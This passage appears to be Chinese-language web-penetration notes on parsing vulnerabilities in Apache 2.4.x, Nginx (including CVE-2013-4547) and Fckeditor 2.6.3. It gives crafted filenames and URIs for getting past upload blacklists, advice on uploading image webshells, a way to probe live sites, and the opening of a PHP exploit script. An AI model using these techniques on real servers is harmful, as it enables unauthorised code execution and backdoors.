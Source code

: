 apache版本为2.4.0-2.4.29

绕过黑名单限制

在1.php后插入一个\x0A，不再拦截，不是php文件，但是成功解析执行

## Nginx解析漏洞

Nginx拿到URI，/test.jpg/test.php后，一看后缀是.php，便认为该文件是php文件，转交给php去处理。php一看/test.jpg/test.php不存在，便删去最后的/test.php，又看/test.jpg存在，便把/test.jpg当成要执行的文件了，又因为后缀为.jpg，php认为这不是php文件，于是返回“Access denied.”

新版本的php引入了“security.limit_extensions”，限制了可执行文件的后缀，默认只允许执行.php文件

注：与IIS7.0的漏洞一模一样

思路可以是通过制作图片马，上传后门后利用/.php执行木马。

判断：访问一个网站的文件，后面输入/.php，若出现403fobidden或者access denied，则说明有此漏洞，若出现404 non found，则无此漏洞。

## Nginx文件名逻辑漏洞（CVE-2013-4547）

影响版本为Nginx0.8.41-1.4.3/1.5.0-1.5.7

主要原因是错误地解析了请求的URI，错误地获取到用户请求的文件名，导致出现权限绕过、代码执行的连带影响

Nginx匹配到.php结尾的请求，就发送给fastcgi进行解析

正常情况下（关闭pathinfo的情况下），只有.php后缀的文件才会被发送给fastcgi解析。

```
location ~ \.php$ {
    include        fastcgi_params;

    fastcgi_pass   127.0.0.1:9000;
    fastcgi_index  index.php;
    fastcgi_param  SCRIPT_FILENAME  /var/www/html$fastcgi_script_name;
    fastcgi_param  DOCUMENT_ROOT /var/www/html;
}
```

而存在CVE-2013-4547的情况下，我们请求`1.gif[0x20][0x00].php`，这个URI可以匹配上正则`\.php$`，可以进入这个Location块；但进入后，Nginx却错误地认为请求的文件是`1.gif[0x20]`，就设置其为`SCRIPT_FILENAME`的值发送给fastcgi.

如，我们上传一个1.jpg加一个空格的文件，然后访问`1.gif[0x20][0x00].php`即可完成php的解析

注：0x20为空格，0x00为\0,两个字符都不需要解码

# 编辑器漏洞

## Fckeditor漏洞利用

Fckeditor(2.6.3)

```
<?php
error_reporting(0);
set_time_limit(0);
ini_set("default_socket_timeout", 5);
define(STDIN, fopen("php://stdin", "r"));
$match = array();
function http_send($host, $packet)
{
$sock = fsockopen($host, 80);
while (!$sock)
{
print "\n[-] No response from {$host}:80 Trying again...";
$sock = fsockopen($host, 80);
}
fputs($sock, $packet);
```